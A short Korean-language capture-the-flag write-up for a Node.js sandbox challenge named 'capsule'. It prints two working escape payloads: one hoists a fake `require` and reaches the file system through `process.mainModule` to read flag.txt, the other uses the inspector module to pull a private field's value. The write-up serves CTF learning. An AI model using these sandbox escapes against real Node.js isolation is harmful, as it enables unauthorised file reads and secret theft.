

# capsule
### #v8 #javascript #node.js #hoisting(?)


[begginer_capsule](../beginner_capsule/README.md) 과 유사한 코드이다. 

다만 `console.log(eval('_flag.get(flag)'));` 의 코드로는 풀리지 않는다.




`_flag` 는 undefined 상태라고 한다.


우선 가장 간단한 풀이는 [함수 호이스팅](https://ojava.tistory.com/144) 을 이용한 풀이이다.

`require` 함수를 호이스팅 하였는데 file system 모듈은 `process.mainModule` 을 이용하여 가져옴으로써 우회 하였다.

이걸 생각한 사람은 천재가 아닐까 싶다.

```javascript
function require() {
  const fs = process.mainModule.require('fs');
  console.log(fs.readFileSync('flag.txt').toString());
}
```


그리고 출제자가 생각한 풀이는 다음과 같다.

```javascript
global.flag = flag;
const inspector = require('inspector');
const session = new inspector.Session();
session.connect();
session.post('Runtime.evaluate', {expression: 'flag'}, (e, d) => {
  session.post('Runtime.getProperties', {objectId: d.result.objectId}, (e, d) => {
    console.log(d.privateProperties[0].value.value);
  });
});
```